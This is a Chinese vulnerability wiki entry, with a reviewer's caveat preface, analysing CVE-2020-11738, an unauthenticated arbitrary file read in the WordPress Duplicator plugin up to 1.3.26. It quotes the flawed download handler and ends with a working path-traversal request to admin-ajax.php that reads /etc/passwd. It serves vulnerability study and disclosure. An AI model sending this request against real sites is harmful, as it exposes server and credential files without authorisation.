



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.3.26 claimed; nopriv duplicator_download reachable and process-readable target

- **结论使用边界（1）**：正文称file没过滤而代码有sanitize_text_field，应准确说不能防目录穿越。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：给完整下载函数与路径拼接，证据较完整；nopriv注册仅截图，宜文本化。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（3）**：固定五层路径按部署可能不同；无修复版本或精确官方公告。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（4）**：所有历史&lt;=上界需确认引入版本，不能仅下载1.3.26扩展全部。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

```
Duplicator <= v1.3.26
```

## 插件名

Duplicator

https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip

## 漏洞复现

首先先查看注册的无需授权的action接口 `wp-content/plugins/duplicator/ctrls/class.web.services.php`



这里 `wp_ajax_nopriv_duplicator_download` 对应的函数名为 duplicator_download



```
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
